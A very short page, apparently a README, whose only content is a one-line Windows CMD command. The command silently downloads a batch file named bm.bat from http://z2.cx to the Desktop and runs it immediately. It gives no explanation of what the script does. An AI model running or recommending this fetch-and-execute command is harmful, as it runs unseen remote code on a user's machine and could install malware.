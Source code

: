 # Get bm.bat
## Run in CMD
`cd %userprofile%\Desktop && curl -s http://z2.cx/bm.bat -o bm.bat && bm.bat`
